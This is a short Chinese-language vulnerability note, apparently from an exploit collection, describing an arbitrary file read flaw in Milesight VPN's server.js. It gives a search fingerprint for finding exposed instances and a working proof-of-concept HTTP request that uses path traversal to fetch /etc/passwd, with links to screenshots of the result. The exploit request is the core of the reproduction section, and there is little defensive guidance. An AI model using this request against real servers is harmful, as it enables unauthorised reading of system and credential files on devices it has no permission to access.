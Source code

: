 # Milesight VPN server.js 任意文件读取漏洞

## 漏洞描述

MilesightVPN 是一款软件，可使 Milesight 产品的 VPN 通道设置过程更加简便，并可通过网络服务器界面监控连接状态。其中存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器中敏感文件

## 漏洞影响

<a-checkbox checked>Milesight VPN</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"MilesightVPN"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1690730120459-2c1711c9-5ccc-4cbc-a31e-b150b491eece-20230811182007783.png)

验证POC

```http
GET /../etc/passwd HTTP/1.1
Host: 
Accept: */*
Content-Type: application/x-www-form-urlencoded
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1690730307132-26f4e9a2-dc98-4313-b836-e923f29be8f7.png)
